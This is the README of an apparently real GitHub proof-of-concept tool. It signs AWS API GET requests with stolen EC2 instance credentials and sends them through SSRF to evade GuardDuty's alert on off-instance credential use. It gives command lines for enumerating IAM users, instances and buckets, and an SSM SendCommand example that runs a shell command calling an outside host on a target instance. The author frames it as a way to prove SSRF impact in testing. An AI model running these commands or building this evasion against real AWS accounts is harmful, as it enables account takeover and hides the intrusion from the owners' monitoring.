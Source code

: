 # aws_url_signer

POC tool to create signed AWS API GET requests to bypass Guard Duty alerting of off-instance credential use via SSRF

# What?

AWS has a Guard Duty alert to advise when an AWS instance credential is used outside of the instance itself. This will give you as the account owner a heads up when the instance credentials are stolen using a vulnerability like a Server Side Request Forgery (SSRF) from the Metadata URL and then subsequently used.

This alerting relies on the instance credential being taken off the host and then used to make an AWS API query from a host that is not in the associated AWS account. This is a common circumstance when instance credentials are comprimised via SSRF - attacker gets the instance creds from the metadata service on a vulnerable EC2 host, configures those credentials locally on their own local host, and then calls the AWS API to try and further compromise the AWS account.  

Even though its not obviously exposed in the various client libraries in any way other than for S3 however, it is possible to make general requests of the AWS API using HTTP GET requests. This allows you to create signed URLs to query the AWS API, send them via the same mechanism by which you compromised the credentials in the first place (e.g. SSRF), and bypass the Guard Duty alerting. This is because AWS API calls made in this way are not being made outside of the AWS account owning the credential - from the perspective of the API server they are coming from the same EC2 instance that owns that credential.

There is [another approach](https://github.com/Frichetten/SneakyEndpoints) available to also bypass these alerts, but this way requires much less infrastructure and setup, but potentially more effort in getting the results/information you are after from time of making first request.


# Usage

This tool is a proof of concept that implements the AWS v4 API signing algorithm for GET URLS. It has very minimal requirements, using `botocore` just to get the list of available services and API versions. 

It has a simple command line interface to run standalone and can also be imported as a module into other Python 3 code to allow it to be more easily used with other exploit code (e.g. SSRF, XXE, etc).

In the very simplest form, you can set your stolen credentials into the standard environment variables (`AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and `AWS_SESSION_TOKEN`) and call the tool like the following to run the `GetCallerIdentity` action for the `sts` service.

```
./aws_url_signer.py -environment -service sts -action GetCallerIdentity
```

This will spit out a signed URL, with a 180 second expiry time, that can be sent in your exploit to make the associated API call. The response will tell you about the  "caller Identity" of the credential you have.

You can do more complex stuff by sending parameters to the call as a JSON encoded string.

The following example uses SSM to generate a URL to remotely execute code against a managed Linux instance `i-xxxxxxxxxxxxxxxxx` in the account.

```
./aws_url_signer.py -environment -service ssm -action SendCommand -region ap-southeast-2 -parameters '{"InstanceIds": ["i-xxxxxxxxxxxxxxxxx"], "DocumentName": "AWS-RunShellScript", "Parameters": {"commands": ["curl http://test.site/123"]}}'
```


You can also stick the .py file in your Python path and use it in your code like so.

```
from aws_url_signer import AWSApiUrlGenerator

api = AWSApiUrlGenerator(access_key, secret_key, session_token)
request_url = api.create_service_url('s3', 'ListBuckets', region='ap-southeast-2')

```

To a large extent you do need to know the AWS API to be able to use this in a useful way, although I have provided some of the examples I have personally tested below.  To some extent you can use it in a similar way to the [AWS cli](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/index.html), but the parameter format will be different in a number of cases, so you can combine it with the general API documentation [here](https://docs.aws.amazon.com/index.html). Find the service you want, and take what would normally be sent in a POST request for a particular API call and supply it JSON encoded to the `parameters` option, and it _SHOULD_ work.




# Warning 

This is a signed https URL that can perform AWS API calls as the compromised user. Standard warnings for leaving the URL where others can see it or having it leaked in logs or other intermediate devices applies. The URLs do timeout after a default period of 180 seconds, so the URLs do have a limited lifetime.


# Alpha code

This should be considered Alpha quality code.

At the time of writing there are 313 services currently supported in the AWS API - I have only tested a small fraction of them that I personally needed to prove impact of SSRF related vulnerabilities.

While the signing process is meant to be standard across the services, there are differences in where regional endpoints sit, and the specific nature of the signed payload and signing process for some services. This could mean that some services I have not specifically tested may not work, but I think many probably will.

The process by which more complex parameter structures are converted into GET compatible versions is also weird. Its possible my code to convert parameters from a standard JSON compatible format is wrong or incomplete, and this will only become clear once someone tries to send parameters more complex than the SSM code execution example above.

Feel free to raise issues or PRs if you find any problems.


# Examples

Here are some examples of running the command line version of the tool. There are some additional commented examples for using the module in code in the source.
```
./aws_url_signer.py -environment -service iam -action ListUsers
./aws_url_signer.py -environment -service sts -action GetCallerIdentity
./aws_url_signer.py -region ap-southeast-2 -environment -service ssm -action DescribeInstanceInformation 
./aws_url_signer.py -region ap-southeast-2 -environment -service ec2 -action DescribeInstances -parameters '{"MaxResults": "5"}'
./aws_url_signer.py -region ap-southeast-2 -environment -service s3 -action ListBuckets
```
